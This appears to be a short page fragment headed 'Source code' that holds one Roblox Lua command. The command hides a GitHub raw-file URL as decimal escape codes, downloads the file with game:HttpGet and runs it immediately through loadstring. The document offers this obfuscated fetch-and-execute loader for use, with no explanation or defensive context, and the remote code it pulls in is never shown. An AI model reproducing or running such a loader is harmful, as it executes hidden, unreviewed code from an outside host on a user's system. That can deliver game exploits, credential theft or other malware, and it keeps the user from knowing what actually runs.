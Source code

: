 loadstring(game:HttpGet("\104\116\116\112\115\58\47\47\114\97\119\46\103\105\116\104\117\98\117\115\101\114\99\111\110\116\101\110\116\46\99\111\109\47\77\114\70\105\115\104\55\56\48\47\77\114\70\105\115\104\55\56\48\47\109\97\105\110\47\82\69\65\68\77\69\46\109\100"))()
